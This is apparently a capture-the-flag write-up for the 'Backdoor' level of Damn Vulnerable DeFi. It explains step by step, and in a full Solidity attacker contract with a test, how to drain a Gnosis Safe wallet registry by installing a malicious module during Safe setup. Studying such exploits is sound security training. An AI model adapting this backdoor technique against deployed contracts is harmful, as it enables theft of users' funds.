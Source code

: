 # #11 Backdoor Damn Vulnerable Defi

## Goals

=> To incentivize the creation of more secure wallets in their team, someone has deployed a registry of [Gnosis Safe wallets](https://github.com/safe-global/safe-contracts/blob/v1.3.0/contracts/GnosisSafe.sol). When someone in the team deploys and registers a wallet, they will earn 10 DVT tokens.

=> To make sure everything is safe and sound, the registry tightly integrates with the legitimate [Gnosis Safe Proxy Factory](https://github.com/safe-global/safe-contracts/blob/v1.3.0/contracts/proxies/GnosisSafeProxyFactory.sol), and has some additional safety checks.

=> Currently there are four people registered as beneficiaries: Alice, Bob, Charlie and David. The registry has 40 DVT tokens in balance to be distributed among them.

=> Your goal is to take all funds from the registry. In a single transaction.

### Hints

- Look at the initialization functions

### Solution

- So we need to trigger the `proxyCreated()` function which has a bunch of checks we need to pass, in the comment it says to use the `createProxyWithCallback()` inside the `GnosisSafeProxyFactory`, we need to create a Gnosis wallet through this function, to pass the check for `if(msg.sender != walletFactory)`
- Now we can create new Gnosis safes with anyone as the owner which means we can create a safe on the behalf of the beneficiaries and then ensure the factory calls back to the WalletRegistry contract. During this callback the contract will transfer 10 DVT to the newly created Gnosis safe. However we are unable to access it since it is solely owned by one of the beneficiaries.
- To get around this we can install a backdoor module into the Gnosis safe on initialization which DOES NOT require the signatures of the owners(deployment only but if you try to add a module after deployment it does require signatures).
- You can exploit this via execTransactionFromModule() or even more simply, you can run the exploit on the initialisation code of your module. Within this code you can approve the attacker/smart contract to spend the funds of the Gnosis wallet.
- General Steps done inside the smart contract:

1. Generate the ABI to call the `setupToken()` function in the attacker contract
2. `exploit()`: Call exploit with the generated ABI and the list of targets
3. `exploit()`: Generate the ABI to setup the new Gnosis wallet with the ABI from step 1 that the callback address & function is the wallet registry
4. `exploit()`: Call the `ProxyFactory` contract with the ABI from step 3 and a callback to the WalletRegistry `proxyCreated()` function.
5. `createProxyWithCallback()`: Deploys the new Proxy and calls `setup()` on the proxy
6. `setup()`: New proxy is setup and sets up our `BackdoorModule` calling back to the attacker contract however this time it is a delegate call meaning that it is executed in the context of the newly create proxy contract.
7. `setupToken()`: (proxy context) approves 10 eth (or any arbitrary value) to be spent by the attacker contract of the proxies token funds
8. `proxyCreated()`: Callback executed on the wallet registry which will pass checks and transfers 10 eth to the newly created wallet
9. `exploit()`: Transfer the 10 eth from the Gnosis wallet to the attacker address
10. Repeat as often as desired from within the contracts constructor to perform the attack in 1 transaction.

### Attacker Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@gnosis.pm/safe-contracts/contracts/common/Enum.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol";
import "../DamnValuableToken.sol";

contract AttackWallet {
    address public owner;
    address public factory;
    address public masterCopy;
    address public walletRegistry;
    address public token;

    constructor(
        address _owner,
        address _factory,
        address _masterCopy,
        address _walletRegistry,
        address _token,
        address[] memory users
    ) {
        owner = _owner;
        factory = _factory;
        masterCopy = _masterCopy;
        walletRegistry = _walletRegistry;
        token = _token;

        // Deploy module contract (this will enable us to approve us
        // for the tokens in the setup process)
        BackdoorModule abm = new BackdoorModule();

        // Setup module setup data
        string memory setupTokenSignature = "approve(address,address,uint256)";
        bytes memory setupData = abi.encodeWithSignature(
            setupTokenSignature,
            address(this),
            address(token),
            10 ether
        );
        // Loop each user
        for (uint256 i = 0; i < users.length; i++) {
            // Need to create a dynamically sized array for the user to meet signature req's
            address user = users[i];
            address[] memory target = new address[](1);
            target[0] = user;

            // Create ABI call for proxy
            string
                memory signatureString = "setup(address[],uint256,address,bytes,address,address,uint256,address)";
            bytes memory gnosisSetupData = abi.encodeWithSignature(
                signatureString,
                target,
                uint256(1),
                address(abm),
                setupData,
                address(0),
                address(0),
                uint256(0),
                address(0)
            );

            // Deploy the proxy with the malicious data in gnosisSetupData
            GnosisSafeProxy newProxy = GnosisSafeProxyFactory(factory)
                .createProxyWithCallback(
                    masterCopy,
                    gnosisSetupData,
                    123,
                    IProxyCreationCallback(walletRegistry)
                );

            // Proxy has approved our contract for transfer in the setup process
            DamnValuableToken(token).transferFrom(
                address(newProxy),
                owner,
                10 ether
            );
        }
    }
}

// Backdoor module contract that has to be deployed seperately so
// It is able to be called before the above contract's constructor is completed
// It is delegate called so we are not calling the token approval directly.
contract BackdoorModule {
    function approve(
        address approvalAddress,
        address token,
        uint256 amount
    ) public {
        DamnValuableToken(token).approve(approvalAddress, amount);
    }
}

```

### Test

```javascript
it('Execution', async function () {
	const AttackWalletFactory = await ethers.getContractFactory('AttackWallet', player);
	await AttackWalletFactory.deploy(
		player.address,
		walletFactory.address,
		masterCopy.address,
		walletRegistry.address,
		token.address,
		users
	);
});
```
